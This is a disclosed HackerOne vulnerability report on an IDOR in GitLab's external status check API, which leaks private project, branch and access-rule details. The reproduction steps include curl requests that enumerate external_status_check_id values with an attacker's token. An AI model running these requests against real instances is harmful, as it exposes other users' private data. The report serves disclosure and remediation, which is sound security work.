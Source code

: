 # IDOR in "external status check" API leaks data about any status check on the instance

## Report Details
- **Report ID**: 1372216
- **URL**: https://hackerone.com/reports/1372216
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-16T20:22:06.303Z
- **Disclosed**: 2022-02-22T19:48:17.868Z

## Reporter
- **Username**: joaxcar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

The API endpoint for returning approval from an `external status check` contains an IDOR that lets a user list information about all `external status checks` on the GitLab instance. The feature is an `Ultimate` feature, but can be accessed by starting an `Ultimate` trial on GitLab.com. So the attack is possible with a regular account.

When an `external status check` is configured, the project will send out information about MRs to a specified endpoint. This endpoint can then be configured to answer to the request to "pass" the status check. Description of the feature [here](https://docs.gitlab.com/ee/user/project/merge_requests/status_checks.html). The API endpoint for this answer is ([info](https://docs.gitlab.com/ee/api/status_checks.html#set-status-of-an-external-status-check))
```
POST /projects/:id/merge_requests/:merge_request_iid/status_check_responses
```
with the passed in parameters `sha` and `external_status_check_id`. It is the later one that contains the IDOR. This parameter tells GitLab which `external status check` the request is targeting. And the answer back from GitLab is JSON containing info about the MR but also info about the status check configuration. By altering the ID sent, a user can obtain info about any status check on the instance (even from Private projects).

Leaked information about a status check could look like the example below and could contain:

* Private project name and ID
* Name of status check
* Private address to external status check tool
* Name and ID of protected branch connected to the status check
* Access rules to protected branch, if configured also name of user that is allowed to access

```
"external_status_check": {
    "id": 10,
    "name": "Name of status check",
    "project_id": 33,
    "external_url": "https://victim.service.com",
    "protected_branches": [
      {
        "id": 24,
        "name": "Name of protected branch",
        "push_access_levels": [
          {
            "access_level": 40,
            "access_level_description": "Name of user with access to protected branch",
            "user_id": 2,
            "group_id": null
          },
          {
            "access_level": 30,
            "access_level_description": "Developers + Maintainers",
            "user_id": null,
            "group_id": null
          }
        ],
        "merge_access_levels": [
          {
            "access_level": 30,
            "access_level_description": "Developers + Maintainers",
            "user_id": null,
            "group_id": null
          },
          {
            "access_level": 40,
            "access_level_description": "Name of user with access",
            "user_id": 2,
            "group_id": null
          }
        ],
        "allow_force_push": true,
        "unprotect_access_levels": [],
        "code_owner_approval_required": true
      }
```

### Steps to reproduce

1. Create two users `victim01` and `attacker01`
2. Log in as `victim01` and create a new PRIVATE project called `victim_project` at https://gitlab.domain.com/projects/new#blank_project
3. Go to go to project settings https://gitlab.domain.com/victim01/victim_project/edit and expand "Merge request" under "General". Scroll down to "Status checks" and click create new.
4. Name the status check "Victim status check" and enter a API endpoint "https://victim.hidden.com"
5. Click save
6. Log out and log back in as `attacker01`
7. Go through step 2 to 5 again but name the project `attacker_project` and the status check anything. Take a note of the ID of the project. We will call it `attackID`
8. Now create a new branch in `attacker_project` at https://gitlab.domain.com/attacker01/attacker_project/-/branches/new
9. Click "Create new merge request" when the branch is created. Name the MR anything and click create
10. Go to https://gitlab.domain.com/-/profile/personal_access_tokens and create an access token for `attacker01`, we will call it `TOKEN`
11. Open a terminal and make this request (the SHA is just "a" here, we will get the correct one as a response)
```
curl --request POST \
  --url 'https://gitlab.domain.com/api/v4/projects/<ATTACKID>/merge_requests/1/status_check_responses?sha=a&external_status_check_id=2' \
  --header 'Authorization: Bearer <TOKEN>'
```
12. This iniitial request will return an error saying `the correct sha is <SHA>`
13. Now send with correct SHA
```
curl --request POST \
  --url 'https://gitlab.domain.com/api/v4/projects/<ATTACKID>/merge_requests/1/status_check_responses?sha=<SHA>&external_status_check_id=2' \
  --header 'Authorization: Bearer <TOKEN>'
```
14. We will get a response with info about the MR and in the end info about the `status check`
15. Now send the same request again but change status check id to 1
```
curl --request POST \
  --url 'https://gitlab.domain.com/api/v4/projects/<ATTACKID>/merge_requests/1/status_check_responses?sha=<SHA>&external_status_check_id=1' \
  --header 'Authorization: Bearer <TOKEN>'
```
16. The same MR info is returned, but in the end there will be info about the private status check from `victim_project`


### Impact

An attacker can leak information about any `external status check` on the instance. This data contains sensitive private information.

### What is the current *bug* behavior?

The parameter `external_status_check_id` is not restricted to the status checks configured in the project.

### What is the expected *correct* behavior?

The parameter should only allow IDs that corresponds to status checks in the target project.

### Output of checks

This bug happens on GitLab.com

## Impact

Leaked information about a status check could look like the example below and could contain:

* Private project name and ID
* Name of status check
* Private address to external status check tool
* Name and ID of protected branch connected to the status check
* Access rules to protected branch, if configured also name of user that is allowed to access

## Attachments
No attachments
